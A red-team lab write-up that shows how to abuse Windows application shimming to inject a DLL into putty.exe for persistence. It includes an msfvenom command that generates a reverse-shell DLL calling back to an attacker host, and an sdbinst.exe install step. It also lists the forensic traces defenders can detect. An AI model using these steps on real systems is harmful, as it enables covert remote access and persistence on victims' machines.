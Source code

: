 ```yaml
---
description: 'Persistence, Privilege Escalation'
---
```


# Application Shimming

## Execution

In this lab, [Compatibility Administrator](https://www.microsoft.com/en-us/download/details.aspx?id=7352) will be abused to inject a malicious payload into putty.exe process, which will connect back to our attacking machine.

Generating malicious payload stored in a 32-bit DLL:

{% code title="attacker@kali" %}
```csharp
msfvenom -p windows/shell_reverse_tcp LHOST=10.0.0.5 LPORT=443 -f dll > evil32.dll
```
{% endcode %}

Creating a shim fix for putty.exe - this is the "fix" that will get our malicious DLL injected into putty.exe when it is launched next time:

![](../../.gitbook/assets/shim-new-fix.png)

![](../../.gitbook/assets/shim-injectdll.png)

![](../../.gitbook/assets/shim-cmdline.png)

Installing the shim fixes database we created earlier onto the victim machine using a native windows utility:

{% code title="attacker@victim" %}
```csharp
sdbinst.exe C:\experiments\mantvydas.sdb
```
{% endcode %}

Launching putty.exe on the victim machine, sends us our reverse shell - DLL injection worked:

![](../../.gitbook/assets/shim-shell.png)

## Observations

We can see putty.exe has loaded the evil32.dll:

![](../../.gitbook/assets/putty-evil32.png)

Note, however, immediately after executing the payload, evil32.dll cannot be observed in the loaded system DLLs:

![](../../.gitbook/assets/shim-rundll32.png)

The sdbinst.exe leaves the following behind:

* fix name "mantvydas" \(we set it in the first step of the shim fix creation\) in the "Installed applications" list
* the fix db itself gets copied over to `%WINDIR%\AppPatch\custom OR %WINDIR%\AppPatch\AppPatch64\Custom`
* registry key pointing to the custom fixes db gets added

All of the above can be seen here:

![](../../.gitbook/assets/shim-remnants.png)

Note that it is possible to install the shim fixes manually without leaving the trace in the "Installed applications" list, however the fixes db will still have to be written to the disk and the registry will have to be modified:

![](../../.gitbook/assets/shim-sysmon.png)

Correlate it with other events exhibited by the application that has been fixed and you may see something you might want to investigate further:

![](../../.gitbook/assets/shim-connection.png)

## References

{% embed url="https://attack.mitre.org/wiki/Technique/T1138" %}

{% embed url="https://blacksunhackers.club/2016/08/post-exploitation-persistence-with-application-shims-intro/" %}

